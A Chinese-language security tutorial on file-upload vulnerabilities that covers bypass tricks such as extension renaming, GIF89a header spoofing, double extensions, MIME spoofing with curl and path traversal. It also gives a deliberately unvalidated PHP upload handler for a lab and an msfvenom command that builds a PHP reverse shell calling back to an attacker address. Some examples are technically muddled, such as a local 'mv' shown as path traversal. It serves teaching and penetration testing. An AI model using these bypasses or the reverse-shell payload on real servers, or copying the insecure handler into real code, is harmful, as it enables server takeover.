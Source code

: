 # 文件上传漏洞绕过技巧的基本概念

## 1. 文件上传漏洞的基本原理

文件上传漏洞是指攻击者能够通过Web应用程序的文件上传功能，将恶意文件上传到服务器，从而执行任意代码、获取服务器控制权或进行其他恶意操作。这种漏洞通常是由于开发者未对上传的文件进行充分的验证和过滤导致的。

### 1.1 底层实现机制

文件上传功能通常通过HTML表单实现，表单中包含一个`<input type="file">`元素，用户可以通过该元素选择本地文件并上传到服务器。服务器端接收到文件后，通常会将其保存到指定目录，并返回文件的访问路径。

在底层，文件上传过程涉及以下几个步骤：

1. **客户端请求**：用户通过浏览器选择文件并提交表单，浏览器将文件数据编码为`multipart/form-data`格式，并发送到服务器。
2. **服务器接收**：服务器接收到请求后，解析`multipart/form-data`数据，提取文件内容。
3. **文件保存**：服务器将文件保存到指定目录，并生成访问路径。
4. **文件处理**：服务器可能对文件进行进一步处理，如重命名、压缩、转换格式等。

如果服务器在接收和保存文件时未进行充分的验证和过滤，攻击者可以通过上传恶意文件来利用漏洞。

## 2. 文件上传漏洞的类型

文件上传漏洞可以分为以下几种类型：

### 2.1 未验证文件类型

开发者未对上传文件的类型进行验证，导致攻击者可以上传任意类型的文件，如PHP、JSP、ASP等脚本文件。一旦这些文件被上传并执行，攻击者可以在服务器上执行任意代码。

### 2.2 未验证文件内容

开发者仅通过文件扩展名或MIME类型进行验证，而未对文件内容进行验证。攻击者可以通过修改文件内容或伪造文件头来绕过验证。

### 2.3 未限制文件大小

开发者未对上传文件的大小进行限制，导致攻击者可以上传超大文件，从而耗尽服务器资源或导致拒绝服务。

### 2.4 未处理文件路径

开发者未对文件保存路径进行安全处理，导致攻击者可以通过构造特殊路径来覆盖重要文件或上传文件到非预期目录。

## 3. 文件上传漏洞的危害

文件上传漏洞的危害主要体现在以下几个方面：

1. **任意代码执行**：攻击者可以上传脚本文件并在服务器上执行任意代码，从而获取服务器控制权。
2. **数据泄露**：攻击者可以上传恶意文件并访问服务器上的敏感数据。
3. **拒绝服务**：攻击者可以上传超大文件或大量文件，从而耗尽服务器资源，导致服务不可用。
4. **权限提升**：攻击者可以通过上传恶意文件来提升权限，从而获取更高的系统权限。

## 4. 文件上传漏洞的绕过技巧

### 4.1 修改文件扩展名

攻击者可以通过修改文件扩展名来绕过文件类型验证。例如，将`.php`文件修改为`.jpg`，然后在上传时修改为`.php`。

**示例代码：**
```bash
mv shell.php shell.jpg
```

### 4.2 伪造文件头

攻击者可以通过伪造文件头来绕过文件内容验证。例如，在PHP文件的开头添加`GIF89a`，使其看起来像GIF文件。

**示例代码：**
```php
GIF89a
<?php
echo "Hello, World!";
?>
```

### 4.3 使用双扩展名

攻击者可以使用双扩展名来绕过文件类型验证。例如，将文件命名为`shell.php.jpg`，服务器可能仅验证最后一个扩展名。

**示例代码：**
```bash
mv shell.php shell.php.jpg
```

### 4.4 修改MIME类型

攻击者可以通过修改MIME类型来绕过文件类型验证。例如，将`application/x-php`修改为`image/jpeg`。

**示例代码：**
```bash
curl -F "file=@shell.php;type=image/jpeg" http://example.com/upload
```

### 4.5 利用文件路径

攻击者可以通过构造特殊文件路径来绕过路径验证。例如，使用`../`来上传文件到非预期目录。

**示例代码：**
```bash
mv shell.php ../../var/www/html/shell.php
```

## 5. 攻击步骤和实验环境搭建指南

### 5.1 实验环境搭建

1. **安装Web服务器**：在本地或虚拟机中安装Apache或Nginx。
2. **创建上传页面**：创建一个简单的HTML表单，允许用户上传文件。
3. **编写上传处理脚本**：使用PHP或其他语言编写上传处理脚本，确保未进行充分的验证和过滤。

**示例代码：**
```php
<?php
if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $target_dir = "uploads/";
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);
    echo "File uploaded successfully.";
}
?>
```

### 5.2 攻击步骤

1. **准备恶意文件**：创建一个PHP脚本文件，内容为`<?php echo "Hello, World!"; ?>`。
2. **修改文件扩展名**：将文件扩展名修改为`.jpg`。
3. **上传文件**：通过上传页面将文件上传到服务器。
4. **访问文件**：通过浏览器访问上传的文件，观察是否执行了PHP代码。

**示例命令：**
```bash
curl -F "file=@shell.jpg" http://example.com/upload
```

## 6. 实际命令、代码或工具使用说明

### 6.1 使用Burp Suite进行文件上传漏洞测试

1. **启动Burp Suite**：打开Burp Suite并配置浏览器代理。
2. **拦截上传请求**：通过浏览器上传文件，Burp Suite将拦截请求。
3. **修改请求**：修改文件扩展名或MIME类型，然后发送请求。
4. **观察响应**：观察服务器响应，确认是否成功绕过验证。

### 6.2 使用OWASP ZAP进行文件上传漏洞测试

1. **启动OWASP ZAP**：打开OWASP ZAP并配置浏览器代理。
2. **扫描上传页面**：使用ZAP的主动扫描功能扫描上传页面。
3. **分析结果**：查看扫描结果，确认是否存在文件上传漏洞。

### 6.3 使用Metasploit生成恶意文件

1. **启动Metasploit**：打开Metasploit控制台。
2. **生成恶意文件**：使用`msfvenom`生成一个PHP反向Shell文件。
3. **上传文件**：将生成的文件上传到目标服务器。
4. **获取Shell**：通过Metasploit监听端口，获取反向Shell。

**示例命令：**
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
```

## 7. 总结

文件上传漏洞是一种常见且危险的Web安全漏洞，攻击者可以通过多种技巧绕过验证，上传恶意文件并执行任意代码。开发者应加强对上传文件的验证和过滤，确保文件类型、内容、大小和路径的安全性。安全测试人员应熟练掌握各种绕过技巧，并使用工具进行全面的漏洞测试。

---

*文档生成时间: 2025-03-11 12:56:21*
